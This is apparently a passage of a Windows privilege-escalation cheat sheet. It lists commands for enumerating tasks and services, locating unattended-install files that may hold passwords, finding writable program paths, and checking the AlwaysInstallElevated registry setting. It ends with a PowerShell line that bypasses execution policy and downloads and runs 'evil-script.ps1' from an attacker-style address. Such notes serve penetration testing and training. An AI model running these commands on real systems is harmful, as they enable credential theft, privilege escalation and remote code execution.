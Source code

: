 #### processes and scheduled tasks
```bash
# Scheduled tasks
schtasks /query /fo LIST /v

# Which process is running which service
tasklist /SVC
```

### Passwords Mining <a name="passwordmining"></a>
```bash
# Look for these unattended files
c:\sysprep.inf
c:\sysprep\sysprep.xml
%WINDIR%\Panther\Unattend\Unattended.xml
%WINDIR%\Panther\Unattended.xml
```

### Weak Permissions <a name="weakpermissions"></a>
```bash
# Find word writeable files
accesschk.exe -uws "Everyone" "C:\Program Files"
Get-ChildItem "C:\Program Files" -Recurse | Get-ACL | ?{$_.AccessToString -match "Everyone\sAllow\s\sModify"}

# Check file ACL
icacls "C:\Program Files\Install\Path\file.exe"
```

### Registry keys <a name="registrykeys"></a>
```bash
# AlwaysInstallElevated
reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
reg query HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\Installer
```

### Powershell <a name="powershell"></a>
```bash
Execute powershell script remotely
powershell.exe -exec bypass -C "IEX(New-Object Net.WebClient).DownloadString('http://10.10.10.10/evil-script.ps1')"
```



